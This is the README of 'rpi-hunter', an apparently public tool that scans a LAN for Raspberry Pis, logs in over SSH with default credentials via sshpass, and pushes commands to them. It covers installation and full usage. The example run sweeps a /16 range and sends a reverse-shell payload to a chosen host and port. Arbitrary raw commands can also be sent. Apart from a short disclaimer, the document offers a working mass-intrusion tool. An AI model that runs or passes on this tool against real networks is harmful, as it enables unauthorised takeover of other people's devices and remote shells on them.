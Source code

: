 # rpi-hunter
Automate discovering all Raspberry Pi's on a LAN and drop a payload via ssh (using default creds)

![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

This tool can be useful for when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py

## Usage
```
usage: rpi-hunter.py [-h] [--no-scan] [-r IP_RANGE] [-f IP_LIST] [-c CREDS]
                     [--list] [--payload PAYLOAD] [-H HOST] [-P PORT] [--safe]

optional arguments:
  -h, --help         show this help message and exit
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -c CREDS           Password to use when ssh'ing
  --list             List avalible payloads
  --payload PAYLOAD  (Name of or raw) Payload [ex. whoami or reverse_shell
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
```
* Example usage: `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337` 
* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw iput
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.


